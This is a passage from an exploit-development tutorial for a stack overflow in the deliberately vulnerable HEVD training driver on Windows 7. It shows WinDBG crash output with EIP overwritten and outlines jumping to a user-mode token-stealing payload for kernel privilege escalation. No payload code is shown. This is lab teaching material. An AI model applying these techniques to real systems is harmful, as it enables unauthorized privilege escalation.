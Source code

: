 Now compile this code and copy it over to the VM. Make sure a WinDBG session is active and run the executable from a shell. Machine should freeze and WinDBG should (okay, maybe will) flicker on your debugging machine.

HEVD shows you debugging info with verbose debugging enabled:
```
****** HACKSYS_EVD_STACKOVERFLOW ******
[+] UserBuffer: 0x000D0000
[+] UserBuffer Size: 0x1068
[+] KernelBuffer: 0xA271827C
[+] KernelBuffer Size: 0x800
[+] Triggering Stack Overflow
```

Enter `k` to show the stack trace, you should see something similar to this:

```
kd> k
 # ChildEBP RetAddr  
00 8c812d0c 8292fce7 nt!RtlpBreakWithStatusInstruction
01 8c812d5c 829307e5 nt!KiBugCheckDebugBreak+0x1c
02 8c813120 828de3c1 nt!KeBugCheck2+0x68b
03 8c8131a0 82890be8 nt!MmAccessFault+0x104
04 8c8131a0 82888ff3 nt!KiTrap0E+0xdc
05 8c813234 93f666be nt!memcpy+0x33
06 8c813a98 41414141 HEVD!TriggerStackOverflow+0x94 [c:\hacksysextremevulnerabledriver\driver\stackoverflow.c @ 92] 
WARNING: Frame IP not in any known module. Following frames may be wrong.
07 8c813aa4 41414141 0x41414141
08 8c813aa8 41414141 0x41414141
09 8c813aac 41414141 0x41414141
0a 8c813ab0 41414141 0x41414141
0b 8c813ab4 41414141 0x41414141
```

If you continue execution, 0x41414141 will be popped into EIP. That wasn't so complicated :)

---

### 3. Controlling execution flow

Exploitation is straightforward with a token-stealing payload described in part 2. The payload will be constructed in user-mode and its address passed as the return address. When the function exists, execution is redirected to the user-mode buffer. This is called a privilege escalation exploit as you're executing code with higher privileges than you're supposed to have.

 Since [SMEP](http://j00ru.vexillium.org/?p=783) is not enabled on Windows 7, we can point jump to a payload in user-mode and get it executed with kernel privileges.

Now restart the vm `.reboot` and let's put a breakpoint at function start and end. To know where the function returns, use `uf` and calculate the offset.

```
kd> uf HEVD!TriggerStackOverflow
HEVD!TriggerStackOverflow [c:\hacksysextremevulnerabledriver\driver\stackoverflow.c @ 65]:
   65 9176b62a push    80Ch
   65 9176b62f push    offset HEVD!__safe_se_handler_table+0xc8 (917691d8)
   65 9176b634 call    HEVD!__SEH_prolog4 (91768014)
   
   ...
   
  101 9176b6ed call    HEVD!__SEH_epilog4 (91768059)
  101 9176b6f2 ret     8
  
kd> ? 9176b6f2 - HEVD!TriggerStackOverflow
Evaluate expression: 200 = 000000c8

kd> bu HEVD!TriggerStackOverflow
```